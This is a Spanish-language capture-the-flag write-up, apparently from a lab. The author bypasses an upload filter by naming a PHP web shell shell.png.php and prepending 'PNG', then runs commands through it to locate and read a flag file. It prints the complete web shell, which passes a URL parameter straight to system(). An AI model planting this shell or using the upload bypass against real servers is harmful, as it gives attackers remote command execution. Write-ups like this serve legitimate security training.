 Al entrar en la dirección que nos dice encuentro que permite subir ficheros:
![](imágenes/Pasted%20image%2020240913000256.png)

Para empezar compruebo si hay un fichero "robots.txt" que me pueda dar información util:
![](imágenes/Pasted%20image%2020240913000638.png)

En el primer fichero:
![](imágenes/Pasted%20image%2020240913000717.png)

De ello supongo que podré intentar subir un archivo malicioso haciéndolo pasar como un png. Subiré una shell php para poder ejecutar comandos:

```php
SHELL:  
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>

``` 

Para que se piensen que es un png, lo llamé shell.png.php y haré que los primeros 3 bytes sean "PNG", simplemente añadiendo esa palabra al principio del fichero.

Para acceder a él, tendré que ir a /uploads/shell.png.php. Ejecuto un comando para buscar txts y veo lo siguiente:
![](imágenes/Pasted%20image%2020240913002307.png)
![](imágenes/Pasted%20image%2020240913002237.png)

Me resulta curioso `/var/www/html/HFQWKODGMIYTO.txt`, así que lo leo, encontrando el flag:
![](imágenes/Pasted%20image%2020240913002400.png)